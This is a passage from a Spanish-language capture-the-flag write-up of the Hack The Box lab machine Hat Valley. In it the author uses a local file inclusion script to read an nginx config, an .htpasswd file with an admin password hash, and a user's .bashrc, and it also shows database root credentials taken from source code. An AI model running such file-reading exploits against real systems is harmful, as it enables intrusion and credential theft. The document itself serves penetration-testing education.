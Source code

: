 Se pueden ver credenciales de acceso a la base de datos, ```root:SQLDatabasePassword321!```. No se reutilizan así que de momento no me sirven de nada

Ahora traigo el archivo de configuración de almacenamiento de ```nginx```

```null
python3 lfi.py /etc/nginx/sites-available/store.conf  | sed 's/^\s*//' | sed '/^#/d' | grep .
server {
listen       80;
server_name  store.hat-valley.htb;
root /var/www/store;
location / {
index index.php index.html index.htm;
}
location ~ /cart/.*\.php$ {
return 403;
}
location ~ /product-details/.*\.php$ {
return 403;
}
location ~ \.php$ {
auth_basic "Restricted";
auth_basic_user_file /etc/nginx/conf.d/.htpasswd;
fastcgi_pass   unix:/var/run/php/php8.1-fpm.sock;
fastcgi_index  index.php;
fastcgi_param  SCRIPT_FILENAME  $realpath_root$fastcgi_script_name;
include        fastcgi_params;
}
}
```

Y veo el ```htpasswd```. Contiene un hash

```null
python3 lfi.py /etc/nginx/conf.d/.htpasswd
admin:$apr1$lfvrwhqi$hd49MbBX3WNluMezyjWls1
```

En la ```bashrc``` del usuario ```bean``` está creado un alias que referencia a un documento

```null
python3 lfi.py /home/bean/.bashrc
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
HISTCONTROL=ignoreboth

# append to the history file, don't overwrite it
shopt -s histappend

# for setting history length see HISTSIZE and HISTFILESIZE in bash(1)
HISTSIZE=1000
HISTFILESIZE=2000

# check the window size after each command and, if necessary,
# update the values of LINES and COLUMNS.
shopt -s checkwinsize

```